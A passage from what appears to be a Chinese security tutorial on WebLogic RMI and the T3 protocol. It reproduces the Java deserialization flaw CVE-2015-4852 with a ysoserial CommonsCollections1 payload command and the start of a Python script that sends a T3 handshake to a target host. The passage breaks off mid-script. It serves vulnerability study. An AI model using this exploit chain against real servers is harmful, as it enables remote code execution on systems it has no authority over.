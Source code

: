 再来看一下WebLogic RMI的调用流程：

[![](https://p2.ssl.qhimg.com/t01bfa7b35de0b2f7c7.png)](https://p2.ssl.qhimg.com/t01bfa7b35de0b2f7c7.png)

前置知识讲完了，小结一下这些概念的关系，Java RMI即远程方法调用，默认使用JRMP协议通信。WebLogic RMI是WebLogic对Java RMI的实现，其使用T3或IIOP协议作为通信协议。无论是Java RMI还是WebLogic RMI，都需要使用JNDI去发现远端的RMI服务。

两张图来解释它们的关系：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013dc32913f30310dd.png)

[![](https://p5.ssl.qhimg.com/t01ad3ffdf3cb604ea2.png)](https://p5.ssl.qhimg.com/t01ad3ffdf3cb604ea2.png)

#### <a name="header-n370"></a>漏洞原理

上面，我详细解释了WebLogic RMI的调用过程，我们初窥了一下T3协议。那么现在我们来仔细看一下刚才抓到的正常WebLogic RMI调用时T3协议握手后的第一个数据包,有几点值得注意的是：
- 我们发现每个数据包里不止包含一个序列化魔术头（0xac 0xed 0x00 0x05）
- 每个序列化数据包前面都有相同的二进制串（0xfe 0x01 0x00 0x00）
- 每个数据包上面都包含了一个T3协议头
- 仔细看协议头部分，我们又发现数据包的前4个字节正好对应着数据包长度
- 以及我们也能发现包长度后面的“01”代表请求，“02”代表返回
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010438efe9d5afaa18.png)

这些点说明了T3协议由协议头包裹，且数据包中包含多个序列化的对象。那么我们就可以尝试构造恶意对象并封装到数据包中重新发送了。流程如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01930ddfbdb4fc2f6a.png)

替换序列化对象示意图如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ac8fb44e0181f2cf.png)

剩下的事情就是找到合适的利用链了（通常也是最难的事）。

我用最经典的CVE-2015-4852漏洞，使用Apache Commons Collections链复现一下整个过程，制作一个简单的PoC。

首先使用Ysoserial生成Payload：

```
 $java -jar ysoserial.jar CommonsCollections1 'touch /hacked_by_tunan.txt' &gt; payload.bin
```

然后我们使用Python发送T3协议的握手包，直接复制刚才抓到的第一个包的内容，看下效果如何：

```
#!/usr/bin/python
#coding:utf-8

# weblogic_basic_poc.py
import socket
import sys
import struct

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# 第一个和第二个参数，传入目标IP和端口
server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# 发送握手包
handshake='t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n'
print 'sending "%s"' % handshake
```